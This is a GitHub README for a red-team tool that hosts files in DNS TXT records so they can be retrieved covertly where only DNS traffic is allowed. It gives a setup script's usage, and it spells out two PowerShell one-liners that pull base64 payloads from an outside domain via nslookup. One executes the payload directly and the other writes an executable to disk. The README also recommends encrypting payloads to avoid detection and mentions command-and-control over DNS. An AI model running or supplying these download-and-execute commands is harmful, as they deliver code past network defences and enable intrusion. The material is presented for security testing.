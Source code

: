 <h1>Convert2DnsTxt</h1>
Convert2DnsTxt is a simple project to illustrate how DNS TXT records could be used to host files.  This could be used to somewhat covertly retrieve files even if the environment only allowed DNS traffic to trusted servers, thanks to recursive queries.  When I've implemented similar things on red team operations, I usually purchase a cheap domain, create an A record and NS record to point a subdomain at a VPS that redirects traffic on UDP 53 to a server I have hosted locally with Bind installed.  With that setup, I can access tools I have hosted in TXT records from practically anywhere just by using nslookup -q=txt.  Similar setups can be used to perform C2 over DNS, but I prefer to use A records and CNAMES to remain a little more covert.
<br>
<h2>Scripts</h2>
<ul>
   <li><b>install_bind9.sh</b>
      <ul><br>
         <li><b>Usage:</b> sudo ./install_bind9.sh [domain] [IP]</li>
         <li><b>Example:</b> sudo ./install_bind9.sh txt.pwntheinter.net 192.168.1.1</li>
         <li>This script installs Bind9 and configures it for your domain.  It will accept a subdomain and IP as parameters.  If no parameters are passed it will prompt for a domain to use and use the IP of the first network interface from the results of ifconfig.  This was written and tested on Ubuntu.</li>
      </ul><br>
   </li>
   <li><b>Convert2DnsTxt.py</b>
      <ul><br>
         <li><b>Usage:</b> sudo ./Convert2DnsTxt.py</li>
         <li>This script will prompt for a file to convert, a DNS TXT record to use, a file location to write the results to, and ask whether or not you would like to restart Bind.  The intended use of this script is give it a file to convert, which will be broken up into multiple TXT records of the same name, if necessary, write it to your domain's zone file, and restart Bind so the changes take effect.  This way, you can quickly add files to TXT records as needed.
         </li>
      </ul>
   </li>
</ul>
<h2>Examples of DNS TXT Usage</h2>
I have a PowerShell script and a "Hello World" executable hosted at txt.pwntheinter.net for testing purposes.  There are a number of ways to retrieve these but the following commands are just a couple of PowerShell examples to illustrate a couple methods:
<ul>
   <li>PowerShell command to download and execute Invoke-ProcessFromParent
      <ul><br>
         <li><span style="white-space: nowrap;">.([scriptblock]::Create([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((((nslookup -q=txt ipfp.txt.pwntheinter.net) | Sort-Object | where { $_.startswith([char]9) }) -join "" -replace '\t"\d{1,}.|"', '')))))</span></li>
      </ul><br>
   </li>
   <li>PowerShell command to download and write hello.exe to the current working directory
      <ul><br>
         <li>[IO.File]::WriteAllBytes("hello.exe", [Convert]::FromBase64String((((nslookup -q=txt hello.txt.pwntheinter.net) | Sort-Object | where { $_.startswith([char]9) }) -join "" -replace '\t"\d{1,}.|"', '')))
         </li>
      </ul>
   </li>
</ul>
<h2>Limitations</h2>
I haven't done exhaustive testing but I have discovered issues arise if there are more than 240 TXT records of the same name.  In such cases, I wouldn't get back any results via nslookup, which is the primary way I was resolving names as I test in a restricted environment with somewhat strict application whitelisting enabled.  You can have 255 characters per TXT record so 240 x 255 = 61,200 characters.  In the example script the file is base64 encoded and prepended with "###." to make sorting easier.  In a real operation, you would want to encrypt then encode the script while decoding, decrypting, and then sorting on the target to better obfuscate what you have hosted.  There is also nothing stopping you from spreading the file over multiple TXT records of different names.


